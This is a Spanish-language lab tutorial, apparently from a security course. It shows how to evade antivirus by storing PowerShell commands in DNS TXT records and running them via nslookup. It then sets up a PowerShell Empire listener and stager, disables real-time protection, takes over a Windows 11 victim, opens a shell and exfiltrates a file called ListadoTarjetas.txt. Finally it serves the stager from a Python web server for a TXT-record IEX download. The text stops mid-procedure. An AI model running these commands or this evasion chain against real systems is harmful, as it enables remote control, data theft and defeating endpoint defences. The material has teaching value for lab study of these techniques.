# Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.


Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.


Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.


Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.


Ahora nos fijamos en el siguiente registro TXT.


Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.


Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***NotePad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

Aprovecha que está ***NotePad*** abierto. Escribe un texto en el documento y guarda el archivo en la carpeta ***Documentos*** con el nombre ***ListadoTarjetas.txt***. Cierra ***NotePad***.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización iniciamos el servidor de ***PowerShell Empire***.
```
sudo powershell-empire server
```

El servidor se inicia, como podemos ver en la siguiente imagen.


Es es momento de iniciar el ***Cliente*** de ***PowerShell Empire***. En una nueva terminal, escribimos.
```
powershell-empire client
```

Ya tenemos el cliente iniciado.


## Ejercicio 3: Crear un Listener y un Stager

Vamos a crear un ***listener*** que estará a la espera de las conexiones de la víctima, que en ***PowerShell Empire*** recibe el nombre de ***agente***.
```
uselistener http
```

Aparecerá la configuración del listener, Como podrás ver, hay campos obligatorios (***required***), otros que no lo son. También se presentas campos con valores por defecto.



Si revisamos la configuración, no tenemos valor para el parámetro ***Port***, que es el puerto al que conectará el ***agente*** cuando éste se inicie en la víctima. Ponemos el valor 9876.
```
set Port 9876
```



Iniciamos el listener.
```
execute
```

El listener debe haberse iniciado.



Vamos a usar un ***stager***, que como ya sabemos es el pequeño programa que realmente descargará en verdadero contenido malicioso en la víctima.

Tenemos una gran cantidad de ***stagers*** a nuestra disposición.



Elegimos ***multi/launcher***.
```
usestager multi/launcher
```

Al seleccionar un ***stager*** aparecen sus opciones. Como puede observarse, el lenguaje en el que se generará es ***PowerShell***, sin embargo el campo ***Listener*** está vacío. Este campo se utiliza para indicar al ***Stager*** qué tipo de ***Listener*** se va a usar.



Ponemos el tipo ***Listener***.
```
set Listener http
```

Ejecutamos para que se genere el ***Stager***.
```
execute
```

Como podemos observar en la siguiente imagen, se ha generado en ***PowerShell*** el código de nuestro ***Stager***.
Nota: Observa en la última línea que aparece un mensaje indicando que se ha copiado al portapapeles. Esto es útil porque generalmente desearemos guardar el ***Stager*** en un archivo.



Procedemos a probar el ***Stager*** (que ahora mismo está copiado en el portapapeles). En la máquina ***Win 11***, en la terminal de ***PowerShell***, ***pegamos*** el portapapeles. En la imagen puedes ver el resultado.



Solo queda pulsar ***Enter*** para simular la ejecucion del ***Stager*** en la víctima.

Como puedes ver, el antivirus ha hecho un buen trabajo detectando al ***Stager*** como malware.




Procecemos a desactivar el antivirus temporalmente para demostrar que el ***Stager*** puede contectarse correctamente al ***Listener***.

En la máquina ***Win 11*** vamos a ***Windows Security*** / ***Virus & threat protection settings*** y hacemos clic en ***Manage settings***.

Desactivamos la protección en tiempo real, como se puede apreciar en la imagen.



Volvemos a pa ventana de ***PowerShell***, pulsamos la ***flecha de cursor arriba*** para recuperar el último comando y pulsamos ***Enter*** para volver a ejecutar el ***Stager***.

En la máquina ***Kali*** podemos observar cómo se ha registrado un nuevo agente en el ***Listener***, y cómo se ha procedido a descargar en el agente el ***payload*** que permitirá controlarlo desde ***PowerShell Empire***.


En la máquina de ***Kali***, escribimos el siguiente comando en la consola de ***PowerShell Empire*** (cliente).
```
agents
```

Podemos visualizar información sobre el ***agente*** que se ha conectado a ***PowerShell Empire***.



Para interactuar con un agente, escribimos lo siguiente.
Nota: Cambia <Nombre_Agente> por el valor actual de ese agente.
```
interact <Nombre_Agente>
```

Las acciones que se pueden realizar contra la víctima son las que muestra la salida del comando.***help***.
```
help
```

y que podemos ver en esta captura.



Juguemos un poco con la víctima.

Mostramos información de la víctima.
```
info
```

Abrimos una Shell en la víctima
```
shell
```

Listamos el contenido de ***Documents***.
```
dir Documents
```

Ahí localizamos un archivo interesante.



Salimos de la shell con ***CTRL+C***.

Descargamos el archivo.
```
download "C:\Users\Antonio\Documents\ListadoTarjetas.txt"
```

Cada vez que un ***Agente*** se conecta a ***PowerShell Empire*** (Server), se crea una carpeta de descarga que se usa para recuperar los archivos descargados desde la víctima.

Cada agente tiene su propia carpeta de descarga. En una nueva terminal, ejecuta el siguiente comando.
```
ls /var/lib/powershell-empire/server/downloads
```

Debes ver la carpeta de descarga de nuestro agente.



y dentro de ella, el archivo que hemos exfiltrado.
Nota: Sustituye <Nombre_Agente> por el nombre del agente que se ha creado.
```
ls /var/lib/powershell-empire/server/downloads/<Nombre_Agente>
```

***PowerShell Empire*** recrea la estructura del disco conforme vamos descargando archivos o directorios.



Ya solo queda ver el contenido del archivo.
```
cat /var/lib/powershell-empire/server/downloads/6L8UBCX7/C:/Users/Antonio/Documents/ListadoTarjetas.txt 
```



Volvemos a la terminal de ***PowerShell-Empire*** (Cliente)
Nota: Si no estamos interactuando con el agente, usar el comando ***interact***

***ACTIVIDAD***

***PowerShell Empire*** está formado por una inmensa cantidad de módulos. Estudia esta URL: https://www.infosecmatter.com/empire-module-library/, curiosea y practica los módulos que sean de tu interés. 
Nota: Puesto que el agente usa PowerShell, céntrate en esos módulos. Por ejemplo, podrías empezar por ***Shrelock*** para buscar vulnerabilidades que permitan escalar privilegios locales y observa el campo ***VulnStatus*** en la salida.

## Evadir al antivirus.

Procecemos a activar el antivirus para demostrar que esta técnica puede evadir la detección. 

Activamos la protección en tiempo real, como se puede apreciar en la imagen.



En la terminal de ***PowerShell*** deberías tener el stager iniciado. Lo paramos con ***CTRL+C***.

En ***Kali*** debemos eliminar el agente que aún sigue registrado, aunque ya no funciona. Para ello usa los comandos ***back*** y ***agents***.



En ***PowerShell Empire*** (Cliente) ejecuta el siguiente comando para eliminar el agente y confirma la eliminación.
```
kill <Nombre_Agente>
```



Para que la técnica de evasión funcione debemos dividir el ataque en dos partes.

* *1*. Crear un registro TXT que use ***IEX*** y descargue el stager desde una ubicación accesible para la víctima, es decir, un servidor web. Nota: ***IEX*** es un alias del comando ***Invoke-Expression*** que permite que ***PowerShell*** ejecute un script.
* *2*. Crear el servidor web que contendrá el código del ***Stager***.

El ataque se producirá ejecutando en la víctima una shell de ***PowerShell*** de descargue el TXT y ejecute su contenido, como ya vimos al principio de este laboratorio.

Procedemos a crear un servidor web que sirva una página web con el contenido del stager. Como es muy probable que lo hayamos perdido, vamos a regenerarlo.

En la máquina ***Kali***, en la consola de ***PowerShell Empire*** (client), escribimos los  siguientes comandos.
Nota: El puerto sigue configurado, por lo que no hay que ponerlo.
```
use Listener http
```
```
usestager multi/launcher
```
```
execute
```

Actualmente tenemos al ***Stager*** nuevamente copiado en el portapapeles.

En una nueva terminal, creamos un un directorio de trabajo para montar el servidor web.
```
mkdir -p ~/webserver

cd ~/webserver
```

Creamos con ***nano*** un archivo en ese directorio que contendrá el stager.
```
nano index.tml
```

En nano pegamos el stager, que debería seguir copiado en el portapapeles. A continuación guardamos y salimos (***CTRL+X***, ***Y*** y ***Enter***)

Ahora levantamos un servidor web para servir el stager en el puerto ***9000***.
```
python3 -m http.server 9000
```


